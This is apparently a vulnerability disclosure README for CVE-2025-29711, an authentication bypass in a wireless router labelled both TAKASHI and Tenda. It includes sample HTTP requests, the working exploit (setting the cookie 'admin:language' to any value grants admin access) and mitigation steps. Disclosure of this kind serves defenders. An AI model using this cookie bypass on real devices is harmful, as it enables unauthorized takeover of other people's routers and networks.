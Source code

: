 # TAKASHI Wireless Instant Router and Repeater - Authentication Bypass Vulnerability CVE-2025-29711

## Overview
A critical authentication bypass vulnerability has been identified in the TAKASHI Wireless Instant Router and Repeater (Model A5) running firmware version **V5.07.38_AAL03** with hardware version **V3.0**. This vulnerability allows unauthorized users to gain administrative access due to improper session management.

## Affected Model
- **Model**: A5
- **Manufacturer**: Tenda 
- **Software Version**: V5.07.38_AAL03  
- **Hardware Version**: V3.0  

## Vulnerability Details
The web application does not properly validate session data, allowing attackers to manipulate cookies and bypass authentication. By setting a specific cookie value, an attacker can gain admin-level access without valid credentials.

## Request Comparison
To understand how this vulnerability works, let's compare an unauthenticated request to an authenticated request.

### Unauthenticated Request
```
POST /LoginCheck HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.2.1/login.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://192.168.2.1
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Username=admin&checkEn=0&Password=whatsthepassword
```

### Authenticated Request
```
GET /wireless_basic.asp HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.2.1/advance.asp
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en; admin:language=en
Upgrade-Insecure-Requests: 1
Priority: u=4
```

## Key Difference
The key difference between the two requests is the presence of the following cookie:
```
admin:language=en
```

## The Vulnerability
The application trusts the `admin:language` cookie without properly verifying session authentication. By simply adding this cookie with an arbitrary value, an unauthenticated user can gain full administrative access.

### Exploit Mechanics
An attacker can exploit this vulnerability by setting the following cookie:
```
admin:language=<any_value>
```
Where `<any_value>` can be any string, text, or number. As long as the cookie is present, the application will treat the user as an authenticated admin.

## Impact
- Unauthorized users can gain admin-level access without valid credentials.
- Attackers can modify router settings, expose sensitive data, and potentially disrupt network operations.
- No brute-force or credential stuffing is needed—just cookie manipulation.

## Mitigation
To mitigate this issue, the following steps should be taken:
1. **Proper Session Management**: Implement server-side session validation instead of relying on client-side cookies.
2. **Token-Based Authentication**: Use secure session tokens that cannot be forged.
3. **Session Expiry**: Ensure sessions expire and require re-authentication after a set period.
4. **Cookie Integrity Checks**: Validate cookies against an active session in the backend database.


## References
- [OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [GoAhead Web Server](https://www.embedthis.com/goahead/)

## Disclaimer
This vulnerability report is for educational and research purposes only. The information provided should not be used for malicious activities. Always obtain proper authorization before testing security vulnerabilities on any system.

---

**Contributors**  
- William James Schleppegrell


